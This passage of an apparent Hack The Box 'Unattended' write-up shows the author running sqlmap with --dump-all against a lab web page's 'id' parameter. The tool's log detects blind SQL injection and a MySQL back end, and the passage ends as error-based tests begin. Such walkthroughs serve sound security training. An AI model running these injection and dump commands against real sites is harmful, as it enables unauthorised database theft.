 ![](/images/hackthebox/unattended/13.png)
<br> I started `sqlmap` to automate it and dump the database :
```
root@kali:~/Desktop/HTB/boxes/unattended# sqlmap -u https://www.nestedflanders.htb/index.php?id=465 --dump-all
       __H__
___ ___ ["]_____ ___ ___  {1.3.4#stable}
|_ -| . [.]     | .'| . |                                                                   
|___|_  [']_|_|_|__,|  _|                                                                   
      |_|V...       |_|   http://sqlmap.org                                                                           
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
 
[*] starting @ 17:12:07 /2019-08-23/

[17:12:08] [INFO] testing connection to the target URL
[17:12:10] [INFO] checking if the target is protected by some kind of WAF/IPS
[17:12:10] [INFO] testing if the target URL content is stable
[17:12:11] [INFO] target URL content is stable
[17:12:11] [INFO] testing if GET parameter 'id' is dynamic
[17:12:12] [INFO] GET parameter 'id' appears to be dynamic                
[17:12:15] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[17:12:16] [INFO] testing for SQL injection on GET parameter 'id'
[17:12:16] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[17:12:25] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="form")
[17:12:34] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y 
[17:12:41] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'                 
[17:12:42] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'              
[17:12:42] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[17:12:43] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'    
```